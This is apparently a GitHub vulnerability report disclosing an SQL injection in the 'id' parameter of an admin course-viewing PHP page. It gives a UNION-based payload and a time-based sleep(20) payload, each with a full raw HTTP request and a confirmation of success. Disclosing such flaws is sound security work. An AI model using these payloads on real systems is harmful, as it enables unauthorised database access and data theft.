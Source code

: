 BUG_Author:Evan

Vulnerability File: /aqpg/admin/courses/view_course.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=1' union all select null,null,concat(0x75767778,0x45464748),null,null,null,null,null-- -

```
GET /aqpg/admin/courses/view_course.php?id=1%27%20union%20all%20select%20null,null,concat(0x75767778,0x45464748),null,null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=gsu6a2n13begpb230tc3rr4m5v
Connection: close
```

union query success

![image](https://github.com/SecurityYH/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 6 from (select(sleep(20)))d)-- e

```
GET /aqpg/admin/courses/view_course.php?id=1%27%20and%20(select%206%20from%20(select(sleep(20)))d)--%20e HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=gsu6a2n13begpb230tc3rr4m5v
Connection: close
```

Server response time is 20 seconds

![image](https://github.com/SecurityYH/bug_report/blob/main/sql2.png)
